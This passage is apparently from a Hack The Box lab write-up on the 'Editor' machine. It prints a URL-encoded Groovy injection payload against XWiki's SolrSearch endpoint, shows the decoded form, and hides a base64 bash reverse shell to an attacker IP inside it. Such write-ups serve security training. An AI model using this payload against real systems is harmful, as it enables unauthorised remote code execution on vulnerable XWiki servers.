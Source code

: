 So now, we should be able to get a reverse shell back to our machine:
Here is the payload i used:

```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi41NS80NDQ0IDA%2BJjE%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22.execute%28%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

```
Which decodes to this:

```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41NS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}".execute(){{/groovy}}{{/async}}

```
>Note that without the base64 encoding, the rev shell doesn't hit back. You could use `BusyBox` rev shell too. Find your way.
{: .prompt-warning }

![Here](assets/htb-editor-4.png)

In here the connection was 
- Established for the first time using the base64 encoding. 
